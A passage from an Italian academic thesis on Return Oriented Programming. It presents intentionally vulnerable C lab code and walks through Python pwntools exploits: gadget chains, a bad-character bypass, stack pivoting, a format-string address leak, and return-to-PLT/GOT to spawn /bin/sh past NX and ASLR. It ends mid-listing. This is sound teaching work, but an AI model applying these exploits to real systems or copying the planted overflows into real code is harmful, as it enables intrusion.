                      \item \textbf{pwnlib.rop.rop}: Quest'altro modulo offre molte funzioni per semplificare la creazione delle \textbf{ROP chain}. Essa consente di simulare un vero e proprio ``finto'' stack su cui inserire gli indirizzi dei gadget.
                      \item \textbf{pwnlib.util.packing}: il seguente modulo rende disponibili delle funzioni (\textbf{p64()}) in grado di trasformare automaticamente, in base al contenuto della variabile ``\textbf{context}'', qualsiasi indirizzo fornito secondo il metodo di ordinamento dei byte definito (ad esempio \textbf{little-endian} oppure \textbf{big-endian}),
                      semplificando l'inserimento degli stessi all'interno delle \textbf{ROP chain}.
              \end{itemize}
\end{itemize}

\subsection*{Illustrazione codice utilizzato nei test}
\label{subsec:Code}
In questa sezione, verrà illustrata parte del codice creato su misura per effettuati i vari test.\\
Come setup generale si è deciso di sviluppare un semplice programma in C ed una libreria condivisa da collegare dinamicamente a tale codice.
L'unico scopo del programma principale, sarà quello di effettuare le chiamate alle varie funzioni vulnerabili contenute nella libreria.
Di seguito verrà mostrato il codice del programma, mentre le singole funzioni della libreria saranno mostrate quando richiamate all'interno dei test.
\begin{lstlisting}[language=C, label=vuln, caption={file .c dell'eseguibile del codice usato come esempio negli attacchi.}, style=C lang]
#include <stdio.h>
#include <string.h>
        
int main(){
        int scelta;
        char username[172],password[172];
        
        memset(password,0,0xac);
        memset(username,0,0xac);
        puts("\nCiao!\n");
        puts("> inserisci 0 o 1 per creare delle nuove credenziali\n");
        puts("> inserisci 2 per aggiornare l'username\n");
        puts("> inserisci 3 per aggiornare la password");
        
        scanf("%d",&scelta);
        
        if (scelta == 0) new_credentials(&username,&password); 
        else if (scelta == 1) new_credentials_canary();
        else if (scelta == 2) change_username();
        else if (scelta == 3) change_password();
}
\end{lstlisting}
Per quanto riguarda invece lo sviluppo degli exploit, i vari codici sono stati scritti in linguaggio \textbf{Python} e possiedono tutti la seguente struttura generale:
\begin{itemize}
      \item \textbf{Elenco dei gadgets}: Una porzione di codice dove saranno salvati all'interno delle variabili tutti i gadgets utili recuperati dal binary file, per poter effettuare l'attacco.\\
            Inoltre se necessario, sarà salvato qualsiasi altro dato necessario per costruire la \textbf{ROP chain}.
      \item \textbf{Impostazione ambiente}: In quest'altra porzione saranno settate le variabili definite ``d'ambiente'', come la ``\textbf{context}'' di \textbf{pwntools}, di fondamentale importanza
            per lo sviluppo dell'attacco.
      \item \textbf{Exploit effettivo}: Infine sarà presente il codice necessario per rendere automatico l'attacco, ossia per renderlo funzionante ogni qualvolta 
            l'utente malevolo decida di eseguirlo, senza che si debba inserire dati di alcun tipo manualmente.\\
            Solitamente questa parte è suddivisa in ricezione dati da processo, creazione \textbf{ROP chain}, elaborazione dati ed invio finale della chain.
\end{itemize}
Ora che sono state chiarite quelle che saranno le strutture generali dei setup utilizzati per lo sviluppo dei test, è possibile iniziare con la dimostrazione del primo test effettuato.
L'obbiettivo di ogni singolo attacco sarà quello dell'eseguire una \textit{shell}, utilizzando approcci differenti della \textbf{Return Oriented Programming} come quelli affrontati nel \hyperref[chap:Attacks]{\textbf{capitolo precedente}}.

\section{Test attacco generico Return Oriented Programming}
\label{sec:Test_1}
In questo primo test, è stato provato un attacco ``classico'' senza troppe complicazioni, utilizzando semplicemente i \textbf{gadgets} presenti all'interno del binary file dell'applicazione vulnerabile per costruire la \textbf{ROP chain} che eseguisse una \textit{shell}.\\
Le difese attive nell'applicazione e nella libreria per questo test sono le seguenti:\\
\begin{figure}[h]
      \centering
      
\includegraphics[width=.3\textwidth]{images/checksec_vuln.png}\hfil
      
\includegraphics[width=.3\textwidth]{images/checksec_lib.png}
      \caption{Difese attive nel \textbf{codice principale} e nella \textbf{libreria condivisa}.}\label{fig:checksec1}
\end{figure}

In entrambi i codici è quindi attiva la \hyperref[sec:Def-W-xor-X]{\textbf{NX} (\textbf{No-eXecute})}, mentre solamente nella libreria è attivo PIE, che sarebbe \hyperref[sec:Def-ASLR]{\textbf{ASLR} (\textbf{Address Space Layout Randomization})}.\\
La funzione della libreria che è stata sfruttata in questo primo test è la seguente:
\begin{lstlisting}[language=C, label=change password, caption={funzione \textbf{change\_password()} della libreria condivisa.}, style=C lang]
void change_password(){
      char new_psw[120];
      int over;
        
      memset(new_psw,0,0x78);
      puts("Inserisci la nuova password:");
      over = read(0,new_psw,0x200);
      check(over, new_psw);
      puts("Grazie!\nPassword: ");
      printf(new_psw);
}
\end{lstlisting}
Si può osservare la presenza di una vulnerabilità di tipo \textbf{buffer overflow}, in quanto la read è stata utilizzata in maniera scorretta. Essa infatti permette la lettura di molti più dati rispetto alla dimensione del buffer su cui 
viene scritto, consentendo all'attaccante di avere il controllo dello stack. Questo sarà essenziale per scrivere la \textbf{ROP chain} in esso e conseguentemente deviare il flusso di esecuzione del programma.\\
Il primo passo per lo sviluppo dell'exploit è stato quello d'impostare le variabili d'ambiente.\\
A tale scopo è stata creata una funzione che consentisse d'impostare il tutto, inserendo solamente il \textbf{pathname} del file ELF dell'applicazione vulnerabile e quello della libreria collegata se disponibile:
\begin{lstlisting}[language=Python, label=env, caption={funzione di settaggio delle principali variabili d'ambiente e chiamata della stessa.}, style =Python]
def set_env(binary,library) :   # funzione settaggio parametri del sistema
    
      elf = context.binary = ELF(binary)
      lib = ELF(library)
      p = elf.process()
      rop = ROP(elf)
      return elf, p, rop, lib

elf, p, rop, lib = set_env('./vulnerable_code','./lib.so')   # settaggio variabili

\end{lstlisting}
Una volta impostate le variabili d'ambiente, l'obbiettivo sarà quello di sfruttare la vulnerabilità sopraccitata e trovare l'\textbf{offset} con cui sarà possibile sovrascrivere l'indirizzo di ritorno contenuto nello stack.\\
Per farlo sarà sufficiente provare input di differenti lunghezze controllando di volta in volta il contenuto del registro \textbf{rip} alla terminazione del processo. Inserendo il comando ``\texttt{\textbf{dmesg}}'' nel terminale dopo l'interruzione
del processo (se causato da un errore), verranno visualizzate le informazioni contenute nei registri in merito a quella precedente esecuzione. Con questa tecnica sarà possibile trovare il corretto offset dopo vari tentativi effettuati.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=1\textwidth]{images/dmesg.png}
      \caption{Esempio di utilizzo del comando ``\textbf{dmesg}'' da terminale.}\label{fig:dmesg}
\end{figure}
\\Nell'esempio presentato sopra erano stati inseriti come input 138 caratteri ``A'', ed è facile notare grazie al comando ``\textbf{dmesg}'' come sia stato completamente sovrascritto il contenuto del registro \textbf{rbp} e successivamente anche quello di \textbf{rip} con 
2 caratteri ``A'', suggerendo che l'\textbf{offset} per andare a sovrascrivere tale registro fosse di 136 unità. Questo approccio è stato adottato poi per quasi la totalità dei test effettuati.\\
Una volta recuperato l'offset necessario per sovrascrivere il registro \textbf{rip}, l'obbiettivo era quello di creare la \textbf{ROP chain}, e per farlo è stato necessario cercare i gadgets nel binary file del codice.\\
La ricerca è stata effettuata con il tool \hyperref[subsec:Tools]{\textbf{Ropper}}, ed i \textbf{gadgets} utili per effettuare le operazioni richieste sono stati riportati nel file dell'exploit:
\begin{lstlisting}[language=Python, label=gadgets, caption={\textbf{gadgets} utili che sono stati recuperati per il primo attacco.}, style =Python]
where_to_write = int(hex(0x404050),0)     # sezione .data -> permesso scrittura 
pop_r12_r13 = p64(0x40134c)               # pop r12; pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x40134e)                   # pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x401353)                   # pop rdi; ret;
pop_rsi = p64(0x401351)                   # pop rsi; pop r15; ret;
pop_r15 = p64(0x401352)                   # pop r15; ret;
mov_rax_r13 = p64(0x4011b8)               # mov rax, r13; ret;
mov_mmr13_r12 = p64(0x40114a)             # mov qword ptr [r13], r12; ret;
add_mbr15_r14b = p64(0x40135c)            # add qword ptr [rax], rbp; ret;
xor_rdx = p64(0x4011e8)                   # xor edx, edx;
syscall =  p64(0x4012ee)                  # syscall gadget      
\end{lstlisting}
la variabile ``where\_to\_write'' visibile sopra serviva a contenere un indirizzo su cui era possibile scrivere in memoria, per avere poi un puntatore alla stringa ``\textbf{/bin/sh\textbackslash00}'' da poter utilizzare.\\
Recuperati i gadgets utilizzabili, il passo successivo sarebbe stato la creazione della \textbf{ROP chain}, tuttavia, come trattato nella \hyperref[sec:Attack_1]{spiegazione di questo primo attacco}, accade spesso che esistano 
i \textbf{bad chars} all'interno dei codici.\\
Divenne allora essenziale trovare quali caratteri rientrassero tra quelli da escludere nella chain. Il metodo adottato fu la seconda opzione descritta nella sezione \ref*{subsec:Badchars}, venne quindi creata una stringa contenente tutti i 
possibili caratteri esistenti. Fu poi inviata come input, e venne analizzato lo stack per verificare quali caratteri fossero stati modificati durante l'esecuzione del programma. Com'è possibile notare dalla seguente immagine risultarono diversi 
alcuni caratteri rispetto a come furono inseriti in principio.
\begin{figure}
      \centering
      
\includegraphics[width=.48\textwidth]{images/bad-pre.png}\hfil
      
\includegraphics[width=.48\textwidth]{images/bad-act.png}
      \caption{Input dell'utente contenuto nello stack \textbf{al momento dell'inserimento} ed \textbf{al termine dell'esecuzione} con evidenziati i caratteri modificati.}\label{fig:badchars}
\end{figure}
\\I caratteri considerati \textbf{bad chars} da parte dell'applicativo erano quindi i seguenti: \texttt{\textbf{0x2f}}, \texttt{\textbf{0x62}}, \texttt{\textbf{0x68}}, \texttt{\textbf{0x69}}, \texttt{\textbf{0x6e}}, \texttt{\textbf{0x73}} corrispondenti rispettivamente a ``\texttt{\textbf{/}}'', 
``\texttt{\textbf{b}}'', ``\texttt{\textbf{h}}'', ``\texttt{\textbf{i}}'', ``\texttt{\textbf{n}}'', ``\texttt{\textbf{s}}''.\\
Come spiegato nella dimostrazione dell'attacco, per eseguire una \textit{shell} è necessario \hyperref[shell-reg]{popolare i registri corretti}, tuttavia uno di questi richiede esplicitamente un puntatore alla 
stringa ``\textbf{/bin/sh\textbackslash00}'', di cui ogni carattere apparteneva a quelli considerati \textbf{bad chars} dal codice, risultando quindi impossibili da essere inseriti direttamente.
\\A tale scopo, fu creata allora una funzione che modificasse la stringa così da non contenere nessuno di essi:\\
\begin{lstlisting}[language=Python, label=str-stransform, caption={funzione dell'exploit che trasforma la stringa utile in una senza caratteri considerati \textbf{bad chars}.}, style =Python]
def make_good_str(bad_str, badchars) :                # trasforma stringa 
    
    good_str = ""                                     
    for c in bad_str :  
        while c in badchars :
            c = chr(ord(c) - 1)                       # c diviene carattere precedente
        good_str += c                                                     
    return good_str      

good_str = make_good_str("/bin/sh\x00", "bin/sh")     # chiamata per exploit
\end{lstlisting}
Dopo aver chiamato tale funzione e aver ottenuto la stringa trasformata, venne creata la \textbf{ROP chain}.\\ 
La prima parte prevedeva l'inserimento in memoria proprio di tale stringa appena ottenuta:
\begin{lstlisting}[language=Python, label=ROP-inmemory, caption={Prima porzione di \textbf{ROP chain} per inserimento in memoria.}, style =Python]
rop = ROP(elf)                            # creazione oggetto ROP di pwntools
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw(good_str)                         # stringa trasformata in r12 = ".agm.rg\x00"   
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x01))                        # r14 = 0x01
rop.raw(where_to_write)                   # r15 = .data idx -> "/bin/sh\x00"
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;

\end{lstlisting}
Inserita in memoria ed ottenuto quindi un puntatore ad essa, fu necessario ritrasformarla utilizzando alcuni dei \textbf{gadgets} recuperati in precedenza. Venne allora creata una seconda funzione che trasformasse ogni singolo carattere di essa direttamente in memoria, mediante l'inserimento in sequenza 
di vari \textbf{gadgets} all'interno della chain, fino all'ottenimento di quella originaria, nel caso ``\textbf{/bin/sh\textbackslash00}'':
\begin{lstlisting}[language=Python, label=badcahrs, caption={Funzione che aggiunge la parte di \textbf{ROP chain} per ritrasformare la stringa memorizzata in ``\textbf{/bin/sh\textbackslash00}''.}, style =Python]
def transform_badchars(rop, good_str, bad_str) :    # trasforma stringa in .data
      
      for n in range(len(good_str)) :
          c = good_str[n]
          rop.raw(pop_r15)                          # pop r15; ret;
          rop.raw(where_to_write + n)               # r15 = .data idx + 1
          while c != bad_str[n] :
              rop.raw(add_mbr15_r14b)               # add byte ptr[r15], r14b;
              c = chr(ord(c) + 1)                   # c diviene carattere successivo  
      
transform_badchars(rop, good_str, "/bin/sh\x00")    # chiamata alla funzione
\end{lstlisting}
Tale funzione, sfrutta il concetto spiegato nella precedente sezione \ref{subsec:Badchars}, ossia inserisce nella chain diverse istruzioni \textbf{ADD} per incrementare il valore esadecimale dei singoli caratteri, fino ad ottenere quelli della stringa attesa.
\\Gli ultimi passi per portare a termine l'attacco furono il completamento della \textbf{ROP chain}, con l'inserimento dei corretti valori all'interno dei registri per eseguire la shell e l'invio di essa come input all'applicazione:
\begin{lstlisting}[language=Python, label=ROP-syscall, caption={Parte finale della \textbf{ROP chain} per effettuare correttamente la chiamata a sistema ed eseguire la \textit{shell}.}, style =Python]
rop.raw(pop_r13)                                # pop r13; pop r14; pop r15; ret;
rop.raw(p64(0x3b))                              # r13 = 0x3b
rop.raw(p64(0x00))                              # r14 = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(mov_rax_r13)                            # mov rax, r13;
rop.raw(pop_rdi)                                # pop rdi; ret;
rop.raw(where_to_write)                         # rdi = .data idx -> "/bin/sh\x00"
rop.raw(pop_rsi)                                # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                              # rsi = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(xor_rdx)                                # rdx = 0x00
rop.raw(syscall)                                # syscall
\end{lstlisting}
Infine, fu deciso di utilizzare le funzioni \textbf{fit}() e \textbf{sendline}(), entrambe della libreria \textbf{pwntools}, per generare automaticamente l'input con gli offset corretti e in successione inviarlo direttamente al programma durante la sua esecuzione:
\begin{lstlisting}[language=Python, label=sendpayload, caption={Creazione del payload finale ed invio della chain al programma.}, style =Python]
payload = dict()                                # creazione dizionario
payload[offset] = rop
p.sendline(fit(payload))                        # invio payload al processo
p.interactive()                                 # interazione da terminale con processo
\end{lstlisting}
Il risultato finale eseguendo l'exploit completo fu quello desiderato, ossia la corretta esecuzione di una \textit{shell}.

\section{Test Stack pivoting}
\label{sec:Test_2}
Nel secondo test, la situazione era leggermente differente rispetto a quella precedente. Le difese abilitate nei due file erano sempre le stesse \hyperref[fig:checksec1]{viste in precedenza}, come l'obbiettivo finale.\\
La funzione della libreria condivisa sfruttata, invece, è la seguente:
\begin{lstlisting}[language=C, label=new credentials, caption={funzione \textbf{new\_credentials()} della libreria condivisa.}, style=C lang]
void new_credentials(char *usr, char *psw){
   
    puts("Inserisci l'username:");
    read(0,usr,0x20);
    puts("Grazie!\nUsername: ");
    printf(usr);

    puts("\nInserisci la password:");
    read(0,psw,0x178);
    puts("Grazie!\nPassword: ");
    printf(psw);
}
\end{lstlisting}
In questo caso oltre ad aver usufruito della vulnerabilità di tipo \textbf{buffer overflow}, è stata sfruttata anche la \textbf{format string} per recuperare dallo stack un importante dato come si vedrà successivamente.
Inoltre, a differenza della funzione precedente, in questo caso gli inserimenti richiesti dall'utente erano due. Il primo accettava al massimo 32 byte in input, mentre il secondo 376 byte, conseguentemente per inserire la \textbf{ROP chain} diveniva obbligatorio 
utilizzare il secondo inserimento e non il primo disponibile.\\
L'offset per sovrascrivere l'indirizzo di ritorno nello stack risultò essere di 360 byte, tuttavia la seconda \textbf{read}() consentiva l'inserimento di pochi byte aggiuntivi rispetto ad essi ed in particolare la \textbf{ROP chain} avrebbe potuto essere lunga al più 16 byte. Ovviamente 
tale valore non era sufficiente per inserirne una come quella vista nel precedente test.\\
La soluzione adottata in questo caso fu allora quella di utilizzare lo \hyperref[sec:Attack_2]{\textbf{stack pivoting}}.\\ 
Per attuare tale tecnica, fu necessario recuperare l'indirizzo di un buffer su cui inserire la \textbf{ROP chain} e disporre di un gadget che consentisse poi di sostituire l'indirizzo contenuto nel registro \textbf{rsp}, con quello di tale struttura di memoria.\\
Come buffer venne utilizzato quello passato come secondo argomento alla funzione, e il suo indirizzo venne recuperato inserendo una particolare \textbf{format string} alla richiesta della prima \textbf{read}:
\begin{lstlisting}[language=Python, label=buffer idx, caption={Recupero dallo stack dell'indirizzo del buffer mediante una \textbf{format string}.}, style =Python]
p.send(b"%6$p")                                     # stampa idx buffer 

buffer = int(p.recvline(False).decode('utf-8'),16)  # salvataggio indirizzo buffer
\end{lstlisting}
Siccome gli indirizzi degli argomenti passati alle funzioni vengono salvati nello stack, anche in questo caso quelli dei due buffer passati venivano memorizzati in esso, perciò con la format string è stato possibile recuperare l'indirizzo di quello utilizzato dalla seconda \textbf{read}().
Il passo successivo fu creare una prima \textbf{ROP chain} minore da al più 16 byte di dimensione per ``dirottare lo stack''. A tale scopo venne trovato un gadget che consentisse la sostituzione del contenuto di \textbf{rsp} con l'indirizzo appena trovato:
\begin{lstlisting}[language=Python, label=rop1, caption={Prima \textbf{ROP chain} per dirottare lo stack.}, style =Python]
pop_rsp = p64(0x40134d)                   # pop rsp; pop r13; pop r14; pop r15; ret;

rop1 = ROP(elf)                           # creazione oggetto rop1
rop1.raw(pop_rsp)                         # pop rsp; pop r13; pop r14; pop r15; ret;
rop1.raw(buffer)                          # rsp = buffer idx
\end{lstlisting}
Nella seconda \textbf{ROP chain}, ossia quella memorizzata nel buffer, venne inserito invece tutto il necessario per l'esecuzione della \textit{shell}:
\begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
rop2 = ROP(elf)                           # creazione oggetto rop2
rop2.raw(p64(0))                          # r13 = 0x00  continuo del comando pop_rsp  
rop2.raw(p64(0))                          # r14 = 0x00  continuo del comando pop_rsp
rop2.raw(p64(0))                          # r15 = 0x00  continuo del comando pop_rsp 
rop2.raw(pop_r12_r13)                     # pop r12; pop r13; pop r14; pop r15; ret;
rop2.raw("/bin/sh\x00")                   # r12 = "/bin/sh\x00"
rop2.raw(where_to_write)                  # r13 = .data idx
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_mmr13_r12)                   # mov [r13], r12; ret;
rop2.raw(pop_r13)                         # pop r13; pop r14; pop r15; ret;
rop2.raw(p64(0x3b))                       # r13 = 0x03b
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_rax_r13)                     # mov rax = r13
rop2.raw(pop_rdi)                         # pop rdi; ret;
rop2.raw(where_to_write)                  # rdi = .data idx -> "/bin/sh\x00"
rop2.raw(pop_rsi)                         # pop rsi; pop r15; ret;
rop2.raw(p64(0x00))                       # rsi = 0x0000000000000000
rop2.raw(p64(0x00))                       # r15 = 0x0000000000000000
rop2.raw(syscall)                         # syscall
\end{lstlisting}
Una volta create le due sequenze, vennero entrambe inviate al programma tramite la seconda \textbf{read}():
\begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
payload = dict()                          # creazione dizionario
payload[0] = rop2             
payload[offset] = rop1        
p.sendline(fit(payload))                  # invio payload al processo
p.interactive()                           # interazione da terminale con processo
\end{lstlisting}
Il risultato ottenuto fu quello atteso, ossia il corretto dirottamento dello stack e l'esecuzione della \textit{shell}, come da obbiettivo.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=.75\textwidth]{images/stack-pivot.png}
      \caption{Dirottamento dello stack dai test. Contornato in rosso il contenuto di \textbf{rsp} durante la normale esecuzione, in verde dopo il dirottamento.}\label{fig:stack-pivot}
\end{figure}

\section{Test su librerie collegate}
\label{sec:Test_3}
Nei prossimi tre test saranno coinvolte principalmente le librerie \textbf{collegate dinamicamente} al codice principale, utilizzando i concetti e le tecniche spiegate nella sezione \ref{sec:Attack_3}.\\
In tutti e tre i test di questa serie, le difese attive sono sempre le stesse dei \hyperref[fig:checksec1]{precedenti test}, compreso l'obbiettivo.\\
La funzione vulnerabile, della libreria condivisa, utilizzata in essi è la seguente:
\begin{lstlisting}[language=C, label=change username, caption={Funzione \textbf{change\_username()} della libreria condivisa.}, style=C lang]
void change_username(){
    char new_usr[120];
    int over;

    memset(new_usr,0,0x78);
    puts("Inserisci il nuovo username:");
    read(0,new_usr,0x200);
    puts("Grazie !);
}
\end{lstlisting}

\subsection{Return-to-PLT}
\label{subsec:Test_3-1}
In questo primo test della serie, si è utilizzato un approccio come quello descritto nella sezione \ref{subsec:Attack_3.2.1}.\\
Disponendo del file della libreria collegata all'applicazione, l'ostacolo da superare 
era il sistema di difesa \textbf{ASLR} che rendeva casuale l'indirizzo di partenza di essa in memoria. Una volta recuperato esso, era possibile utilizzare qualsiasi funzione all'interno della libreria.\\
Come nei precedenti attacchi, inizialmente sono state impostate \hyperref[env]{le variabili d'ambiente}, i \textbf{gadgets} utili (gli stessi visti precedentemente, ad esclusione di quello contenente l'istruzione 
\textbf{syscall}, non più presente nel binary file del codice) ed è stato rilevato l'\textbf{offset} che consentisse di sovrascrivere l'indirizzo di ritorno.\\
A questo punto, per ottenere l'indirizzo di partenza della libreria, era necessario creare una \textbf{ROP chain} che consentisse di recuperare uno degli indirizzi effettivi delle funzioni contenute in essa. La soluzione adottata, 
fu quella di creare una chain che richiamasse la funzione \textbf{puts}(), passandole come primo argomento il contenuto della ``\textbf{.got.plt}'' table associato alla funzione vulnerabile \hyperref[change username]{\textbf{change\_username}()}
della libreria. Essendo essa già stata richiamata all'inizio per effettuare l'attacco, il puntatore associato a tale voce nella ``\textbf{.got.plt}'' table conteneva già l'indirizzo effettivo su cui risiedeva essa in memoria.\\
Al termine di questa prima chain, però, era necessario effettuare nuovamente la chiamata alla funzionalità \hyperref[change username]{\textbf{change\_username}()}, altrimenti l'attacco sarebbe terminato senza aver nemmeno utilizzato i dati ottenuti.\\ 
Venne quindi aggiunta in coda alla sequenza anche una chiamata a tale procedura:
\begin{lstlisting}[language=Python, label=rop1-idx, caption={Creazione e invio della prima \textbf{ROP chain}, per stampare l'indirizzo effettivo in memoria di \textbf{change\_username}() e continuare l'attacco.}, style =Python]
rop = ROP(elf)                                   # creazione oggetto rop
rop.raw(elf.symbols["puts"])                     # chiamata a puts per stampare '\n'
rop.call("puts",[elf.got["change_username"]])    # stampa indirizzo di change_username
rop.raw(elf.symbols["change_username"])          # per poter inviare la seconda chain

payload = dict()                    
payload[offset]= rop
p.sendline(fit(payload))            
\end{lstlisting}
Com'è possibile notare dall'immagine in sovrimpressione, è stata utilizzata la funzione \textbf{call}() di \textbf{pwntools} come secondo elemento della chain, in quanto inserisce automaticamente in essa la chiamata alla funzione richiesta ed i gadgets per popolare i registri corretti con gli argomenti forniti.\\
Una volta inviata, venne recuperato l'indirizzo stampato a schermo dalla \textbf{puts}() e soprattutto calcolato quello di base della libreria, sottraendo al valore ottenuto l'offset statico di \textbf{change\_username}() contenuto nel file \textbf{ELF} della stessa:
\begin{lstlisting}[language=Python, label=cu-idx, caption={Ricezione dell'indirizzo effettivo di \textbf{change\_username}() e calcolo-impostazione dell'indirizzo di base in memoria della libreria.}, style =Python]
change_usr_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
lib.address = change_usr_lib_idx - lib.symbols["change_username"]           
\end{lstlisting}
Grazie sempre alla libreria \textbf{pwntools}, impostando \textbf{lib}.\textbf{address} (dove lib è la variabile d'ambiente utilizzata all'inizio per contenere il file \textbf{ELF} della libreria) ad un indirizzo arbitrario, viene applicato automaticamente l'offset a tutti i simboli
contenuti in essa, sulla base dell'indirizzo inserito.\\
Per questo motivo, è stato possibile utilizzare qualsiasi funzionalità della libreria condivisa, semplicemente richiamandola all'interno della \textbf{ROP chain}.\\
Come per i precedenti attacchi, l'obbiettivo era quello di eseguire una \textit{shell}, tuttavia non era più presente il gadget contenente la \textbf{syscall} nel binary file dell'applicazione. Era invece presente in quello della libreria una funzione non visibile dall'applicativo 
principale, che dopo aver popolato correttamente i registri degli argomenti, permetteva di eseguirne una:
\begin{lstlisting}[language=C, label=secret function, caption={Funzione \textbf{secret\_function}() della libreria condivisa.}, style=C lang]
void secret_function(char * str1, char* str2[], char* str3[]){
    puts("\nreally secret function !!!");
    execve(str1, str2, str3);
}
\end{lstlisting}
Per portare a termine l'attacco venne quindi creata una seconda \textbf{ROP chain} (da inviare poi al processo) che modificasse il contenuto degli indirizzi, in modo tale da passare i corretti argomenti alla funzione trovata per eseguire la \textit{shell}.
Le richieste erano pressoché simili a quelle viste negli attacchi precedenti, quindi nel registro \textbf{rdi} serviva un puntatore alla stringa ``\textbf{/bin/sh\textbackslash00}'', mentre \textbf{rsi} e \textbf{rdx} dovevano essere impostati entrambi a zero.\\ 
In questo caso al posto del \textbf{gadget} contenete la \textbf{syscall} come ultimo elemento della catena, venne invece inserita la chiamata a \textbf{secret\_function}():
\begin{lstlisting}[language=Python, label=cu-idx, caption={Seconda \textbf{ROP chain} per il settaggio dei registri e la chiamata finale a \textbf{secret\_function}(), ed invio finale della stessa.}, style =Python]
rop = ROP([elf,lib])                      # creazione oggetto rop
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("secret_function")               # chiamata a secret_function()

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()          
\end{lstlisting}
Anche in questo caso, come per quelli precedenti, l'esecuzione dell'exploit completo portò alla corretta esecuzione di una \textit{shell}.

\subsection{Return-to-GOT}
\label{subsec:Test_3-2}
Nel secondo test di questa serie, è stata utilizzata la tecnica discussa nella sezione \ref{subsec:Attack_3.2.2}. Anche in questo caso, essendo disponibile il file \textbf{ELF} della libreria collegata, l'ostacolo da superare rimaneva la difesa \textbf{ASLR}.
Tuttavia, invece di recuperare l'indirizzo di partenza della libreria in memoria, venne sfruttata una delle caratteristiche della \hyperref[subsec:PLT-GOT]{\textbf{GOT}}, ossia quella di essere modificabile dall'utente.
Questo particolare consentì il superamento del sistema di difesa, senza dover recuperare alcun indirizzo effettivo in memoria della libreria, ed andando inoltre a creare solamente una \textbf{ROP chain}.\\
Come nei test precedenti, anche in questo inizialmente sono state impostate \hyperref[env]{le variabili d'ambiente} e \hyperref[gadgets]{i gadgets utili} (con alcune aggiunte che verranno mostrate successivamente). L'\textbf{offset} per sovrascrivere l'indirizzo di ritorno non venne ricalcolato, in quanto 
utilizzando la \hyperref[change username]{stessa funzione vulnerabile} del test passato, risultava uguale.\\
Arrivati a questo punto, venne calcolato l'\textbf{offset} statico tra la funzione di libreria \hyperref[secret function]{\textbf{secret\_function}()} (scoperta nel passato test) che si desiderava chiamare e la funzione già richiamata nelle prime fasi dell'attacco, 
ossia \hyperref[change username]{\textbf{change username}()}:
\begin{lstlisting}[language=Python, label=cu-idx, caption={Calcolo \textbf{offset} statico tra funzioni della libreria condivisa \textbf{secret\_function}() e \textbf{change\_username}().}, style =Python]
secret_off = libc.symbols["secret_function"]-libc.symbols["change_username"]         
\end{lstlisting}
Dopo aver ottenuto tale informazione, sono stati ricercati i \textbf{gadgets} necessari per costruire la \textbf{ROP chain} e portare a compimento l'attacco. Nello specifico ne sono stati recuperati alcuni che consentissero di aggiungere tale \textbf{offset} appena ottenuto,
all'indirizzo effettivo in memoria di \textbf{change username}(). Esso risultava già contenuto nel puntatore associato a tale voce nella ``\textbf{.got.plt}'', in quanto tale funzionalità era già stata inizialmente richiamata durante il normale flusso di esecuzione.
\begin{lstlisting}[language=Python, label=gadgets add, caption={\textbf{Gadgets} recuperati necessari per creare la \textbf{ROP chain}.}, style =Python]
pop_rbp = p64(0x4011dd)                         # pop rbp; ret;
